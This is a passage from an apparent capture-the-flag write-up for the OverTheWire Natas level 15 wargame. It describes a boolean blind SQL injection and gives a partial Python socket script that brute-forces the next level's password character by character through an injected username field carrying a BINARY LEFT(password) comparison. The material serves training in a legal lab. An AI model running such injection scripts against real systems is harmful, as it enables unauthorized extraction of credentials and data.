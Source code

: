 ![natas15-02](/assets/images/otw-natas/natas15-02.png)

One payload results in a reponse with a suspiciously different length. "This user exists," it says - bingo.

As it turns out, the first character is 'W' and not 'w' as shown in Burp. As discussed [here](http://stackoverflow.com/questions/5629111/how-can-i-make-sql-case-sensitive-string-comparison-on-mysql), certain string comparisons are not case sensitive. The addition of BINARY as used in the injection code below fixes this issue.

The ugliness below is a hastily-written solution which bruteforces each individual character. I prefer crafting the request myself and sending it to a socket rather than using an HTTP library as it is easier to debug and offers tremendous flexibility. The `natas15(p)` function returns a boolean after trying password p. The loops walk through the problem in the most straightfoward way - keep trying characters at a given position until you find one, and keep adding a position until one is found for which no characters match.

```python
import socket

HOST = "natas15.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas16" and BINARY LEFT(password, {glength})="{guess}'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas15(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
```